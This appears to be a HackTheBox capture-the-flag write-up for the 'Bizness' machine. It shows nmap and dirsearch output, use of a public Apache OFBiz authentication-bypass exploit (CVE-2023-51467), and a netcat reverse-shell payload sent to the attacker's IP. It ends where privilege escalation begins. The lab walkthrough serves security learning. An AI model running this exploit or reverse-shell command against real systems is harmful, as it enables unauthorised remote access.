





# <center> BIZNESS </center>


Hello everyone. Let's solve an easy labeled linux based HTB machine named Bizness.

## Initial step (conifguring your local system)

- Download your open vpn configuration file and connect to htb vpn.
    - ```bash
        sudo openvpn <configuratio_file_name>
      ```
- Join the machine to get an IP. (in my case it is 10.10.11.252).
- tasks given:
    - submit user flag (32 hex characters).
    - submit root flag (32 hex characters).

Now we are good to go. we can access the website through our browser. Now let's dive into our actual hacking stuffs 😉. (Disclaimer: By "hacking", I meant <strong><i>ETHICAL</strong> Hacking</i>)

<hr>

## Scanning and Enumeration


- performing agressive nmap scan on the given ip. (-A stands for agressive in below command)
    - ```bash
        nmap -A -T4 10.10.11.252

        Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-30 22:07 IST
        Warning: 10.10.11.252 giving up on port because retransmission cap hit (6).
        Nmap scan report for bizness.htb (10.10.11.252)
        Host is up (0.41s latency).
        Not shown: 954 closed tcp ports (conn-refused), 43 filtered tcp ports (no-response)
        PORT    STATE SERVICE  VERSION
        22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
        | ssh-hostkey: 
        |   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
        |   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
        |_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
        80/tcp  open  http     nginx 1.18.0
        |_http-title: Did not follow redirect to https://bizness.htb/
        443/tcp open  ssl/http nginx 1.18.0
        | tls-alpn: 
        |_  http/1.1
        | ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
        | Not valid before: 2023-12-14T20:03:40
        |_Not valid after:  2328-11-10T20:03:40
        |_http-title: 400 The plain HTTP request was sent to HTTPS port
        | tls-nextprotoneg: 
        |_  http/1.1
        |_http-server-header: nginx/1.18.0
        |_ssl-date: TLS randomness does not represent time
        Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

        Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
        Nmap done: 1 IP address (1 host up) scanned in 112.27 seconds.
        ```

    - from nmap result we can observe SSH service and Ngnix on ports 80 and 443.
    - Also, a web app is running on port 80, but it is not accessible through ip address, so let's add the ip and it's domain name in out local `/etc/hosts` file and now it can be accessed using the ip (10.10.11.252 in my case) or its domain name `bizness.htb`.
    - ```bash
        sudo nano /etc/hosts
        ```
    - 


- The website is static. After fuzzing it's input fields we can know that there is no case of parameter injection in the website. So now let's do some enumeration and search some hidden directories.

- performing dirsearch.
    - ```bash
        dirsearch -u https://bizness.htb
        ```
    - 

## Gaining Initial Access

- the most interesting result I foud was /control/login. (no doubt it's an eye catcher for a hacker 😉). Following the path bizness.htb/control/login took me to an apache ofbiz authentication page. Then I tried fuzzing and bruteforcing some of the passwords for admin user, but it was of no use 😮‍💨.


Then I remembered a statement "Google: A hacker's bestfriend", so immediately I googled some ways to bypass the ofbiz authentication. There I came to know about Apache OFBiz Authentication Bypass Vulnerability (CVE-2023-51467).
- [check this website](https://threatprotect.qualys.com/2023/12/27/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-51467/) to know more about the vulnerability details and exploit analysis.

Luckily I found an exploit on github that triggers <strong>Remote Code Execution (RCE) </strong>. So it's obvious that my next move would be to get a reverse shell using RCE. So I cloned [this Git repo](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.git) to my local system.
- 

- <strong>Working on payload</strong>

    - my attacking (tun0) ip: `10.10.14.151` (can be found using ifconfig command)
    - command for netcat reverse shell:
    ```bash
        nc -c bash <ip> <port>
     ```
    - command to execute exploit on remote server:
    ```bash
        python3 exploit.py --url 'URL' --cmd 'CMD'
    ```
    - Final payload:
    ```bash
        python3 exploit.py --url https://bizness.htb --cmd 'nc -c bash 10.10.14.151 1234'
    ```
So finally I started my netcat listener on port 1234 with comman d `nc -lnvp 1234` and then executed the final payload in a next tab.
And voilà, We got a reverse shell.....

- 

Let's first stabilize the shell using the following commandd:
```bash
    python3 -c 'import pty;pty.spawn("/bin/bash")’
    export TERM=xterm

    press Ctrl + Z

    stty raw -echo; fg
```

Navigating through the file system, we can find the user flag in /home/ofbiz/user.txt file 🫠.

But this is not the  end 🥴. Remember the task, we need to submit the root flag as well. So, lets do some vertical previlege escalation.

## Previlege Escalation

